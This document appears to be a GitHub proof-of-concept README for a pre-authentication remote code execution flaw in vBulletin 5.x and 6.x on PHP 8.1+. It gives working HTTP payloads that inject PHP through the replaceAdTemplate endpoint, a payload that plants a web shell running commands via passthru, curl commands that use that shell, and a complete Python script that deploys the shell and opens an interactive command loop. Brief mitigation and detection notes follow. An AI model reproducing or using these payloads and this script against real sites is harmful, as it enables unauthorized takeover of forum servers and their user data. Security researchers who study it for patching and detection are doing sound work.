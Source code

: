 
# vBulletin replaceAdTemplate Remote Code Execution POC

**Author:** Chirag Artani
**CVE:** N/A (N-Day vulnerability)
**Affected Versions:** vBulletin 5.x and 6.x running on PHP 8.1+
**Severity:** Critical (Pre-authentication RCE)

## Vulnerability Overview

This vulnerability exploits a combination of two security flaws in vBulletin[^1]:

1. **PHP Reflection API Misuse**: vBulletin's API controller allows calling `protected` methods via `ReflectionMethod::invoke()` when running on PHP 8.1+
2. **Template Engine Code Injection**: The template parser can be bypassed using variable function calls to execute arbitrary PHP code

The exploit chain targets the `vB_Api_Ad::replaceAdTemplate()` protected method to inject malicious templates that execute PHP code through vBulletin's template conditionals (`<vb:if>` tags)[^1].

## Technical Details

### **Root Cause Analysis**

The vulnerability stems from changes in PHP 8.1 that allow `protected` and `private` methods to be invoked via the Reflection API. vBulletin's API controller uses `is_callable()` to check method accessibility, but this function returns `true` even for `protected` methods, allowing execution to continue to `ReflectionMethod::invokeArgs()`[^1].

The `replaceAdTemplate()` method accepts user-controlled template content that gets processed by vBulletin's template engine. By using variable function calls (e.g., `"function_name"(args)`), attackers can bypass the template parser's security regex checks and execute arbitrary PHP functions[^1].

## Proof of Concept

### **Step 1: File Write Operation**

Create a simple text file to verify code execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 153

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"file_put_contents"("hello.txt", "Hello World!")'></vb:if>
```


### **Step 2: Directory Listing Verification**

Confirm file creation and explore the web directory:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 127

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"print_r"("glob"("*"))'></vb:if>
```

**Expected Response:**

```
Array
(
    [^0] => LICENSE
    [^1] => ava
    [^2] => config.php
    [^3] => config.php.bkp
    [^4] => core
    [^5] => customavatars
    [^6] => customgroupicons
    [^7] => customprofilepics
    [^8] => favicon.ico
    [^9] => fonts
    [^10] => hello.txt
    [^11] => htaccess.txt
    [^12] => images
    [^13] => includes
    [^14] => index.php
    [^15] => js
    [^16] => logs
    [^17] => ocp.php
    [^18] => opcache-gui.php
    [^19] => opcache.php
    [^20] => signaturepics
    [^21] => useralbums
    [^22] => userfiles
    [^23] => web.config
)
```


### **Step 3: Web Shell Deployment**

Deploy a persistent web shell for command execution:

```http
POST /ajax/api/ad/replaceAdTemplate HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 189

routestring=ajax/api/ad/replaceAdTemplate&styleid=1&location=3444&template=<vb:if condition='"file_put_contents"("shell.php", "<?php if(isset($_POST[\"cmd\"])) { echo \"<pre>\"; passthru($_POST[\"cmd\"]); echo \"</pre>\"; } ?>")'></vb:if>
```


### **Step 4: Command Execution**

Execute system commands through the deployed web shell:

```bash
curl -X POST http://target.com/shell.php -d "cmd=id"
curl -X POST http://target.com/shell.php -d "cmd=whoami"
curl -X POST http://target.com/shell.php -d "cmd=ls -la"
```


## Automated Exploitation Script

```python
#!/usr/bin/env python3
"""
vBulletin replaceAdTemplate RCE Exploit
Author: Chirag Artani
"""

import requests
import sys
import urllib.parse

def exploit_vbulletin(target_url):
    print("[+] vBulletin replaceAdTemplate RCE Exploit")
    print(f"[+] Target: {target_url}")
    
    # Step 1: Deploy web shell
    shell_payload = '<?php if(isset($_POST["cmd"])) { echo "<pre>"; passthru($_POST["cmd"]); echo "</pre>"; } ?>'
    template_payload = f'<vb:if condition=\'"file_put_contents"("rce.php", "{shell_payload}")\' ></vb:if>'
    
    data = {
        'routestring': 'ajax/api/ad/replaceAdTemplate',
        'styleid': '1',
        'location': '3444',
        'template': template_payload
    }
    
    try:
        response = requests.post(f"{target_url}/ajax/api/ad/replaceAdTemplate", data=data, timeout=10)
        print(f"[+] Shell deployment response: {response.status_code}")
        
        # Step 2: Test shell access
        shell_url = f"{target_url}/rce.php"
        test_response = requests.post(shell_url, data={'cmd': 'id'}, timeout=10)
        
        if test_response.status_code == 200 and 'uid=' in test_response.text:
            print(f"[+] Shell successfully deployed at: {shell_url}")
            print(f"[+] Test command output:\n{test_response.text}")
            
            # Interactive shell
            while True:
                cmd = input("vBulletin-shell# ")
                if cmd.lower() in ['exit', 'quit']:
                    break
                
                cmd_response = requests.post(shell_url, data={'cmd': cmd}, timeout=10)
                print(cmd_response.text)
                
        else:
            print("[-] Shell deployment failed")
            
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 vbulletin_rce.py <target_url>")
        print("Example: python3 vbulletin_rce.py http://target.com")
        sys.exit(1)
    
    target = sys.argv[^1].rstrip('/')
    exploit_vbulletin(target)
```


## Mitigation

1. **Immediate Actions:**
    - Update vBulletin to the latest patched version
    - Implement Web Application Firewall (WAF) rules to block malicious template injection attempts
    - Monitor for suspicious API calls to `replaceAdTemplate`
2. **Long-term Security:**
    - Regular security audits of custom API endpoints
    - Implement proper input validation and sanitization
    - Use allowlists instead of denylists for template validation
    - Consider running vBulletin with restricted PHP functions using `disable_functions`

## Detection

Look for the following indicators in web server logs:

- POST requests to `/ajax/api/ad/replaceAdTemplate`
- Template parameters containing `<vb:if condition=` with function calls
- Unusual file creation in web directories
- Suspicious PHP function calls in template content

This vulnerability demonstrates the critical importance of proper access control implementation and secure template processing in web applications[^1].

<div style="text-align: center">⁂</div>

[^1]: https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce

[^2]: https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-vbulletin-pre-auth-rce-vulnerability-cve-2019-16759/

[^3]: https://www.authentic8.com/blog/vbulletin-5-0day-from-imperfect-patch

[^4]: https://community.f5.com/kb/technicalarticles/vbulletin-pre-authentication-–-remote-code-execution-cve-2019-16759/283751

[^5]: https://unit42.paloaltonetworks.com/cve-2020-17496/

[^6]: https://x.com/Dinosn/status/1926835589111791894

[^7]: https://cloud.projectdiscovery.io/?template=CVE-2025-24813

[^8]: https://www.sentinelone.com/blog/vbulletin-cve-2023-25135/

[^9]: https://www.exploit-db.com/exploits/38629

[^10]: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/vbulletin-remote-code-execution-cve-2020-7373/

